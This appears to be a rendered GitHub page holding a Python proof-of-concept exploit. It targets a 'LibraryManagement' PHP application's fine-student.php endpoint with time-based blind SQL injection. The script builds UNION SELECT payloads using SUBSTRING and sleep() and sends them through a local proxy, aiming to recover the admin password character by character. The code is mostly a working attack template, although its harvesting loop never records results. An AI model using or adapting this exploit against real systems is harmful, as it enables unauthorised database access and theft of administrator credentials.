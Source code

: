 ```python
import requests
from colorama import Fore as F
from colorama import Back as B
from colorama import Style as S
requests.packages.urllib3.disable_warnings(requests.packages.urllib3.exceptions.InsecureRequestWarning)
proxies         = {'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}

# POST /LibraryManagement/fine-student.php
# inject' UNION SELECT IF(SUBSTRING(password,1,1) = '1',sleep(1),null) FROM admin WHERE adminId=1; -- kamahamaha
def sqliPayload(char,position,userid,column,table):
    sqli  = 'inject\' UNION SELECT IF(SUBSTRING('
    sqli += str(column)+','
    sqli += str(position)+',1) = \''
    sqli += str(char)+'\',sleep(2),null) FROM '
    sqli += str(table)+' WHERE adminId='
    sqli += str(userid)+'; -- kamahamaha'
    return sqli

chars = [ 'a','b','c','d','e','f','g','h','i','j','k','l','m','n','o',
          'p','q','r','s','t','u','v','w','x','y','z','A','B','C','D',
          'E','F','G','H','I','J','K','L','M','N','O','P','Q','R','S',
          'T','U','V','W','X','Y','Z','0','1','2','3','4','5','6','7',
          '8','9','@','#']

def postRequest(URL,sqliReq,char,position):
    sqliURL = URL
    params = {"check":1,"id":sqliReq}
    req     = requests.post(url=sqliURL, data=params, verify=False, proxies=proxies,timeout=10)
    print("{} : {}".format(char,req.elapsed.total_seconds()))

def theHarvester(target,CHARS,url):
    print("Retrieving: {} {} {}".format(target['table'],target['column'],target['id']))
    position = 1
    theHarvest = ""
    while position < 5:
        for char in CHARS:
            sqliReq = sqliPayload(char,position,target['id'],target['column'],target['table'])
            postRequest(url,sqliReq,char,position)
        position += 1
    return theHarvest

if __name__ == "__main__":
    HOST  = "http://localhost"
    PATH  = HOST+"/LibraryManagement/fine-student.php"
    adminPassword  = { "id":"1", "table":"admin", "column":"password"}
    adminPass = theHarvester(adminPassword,chars,PATH)
```

You may need to install the module dependencies:
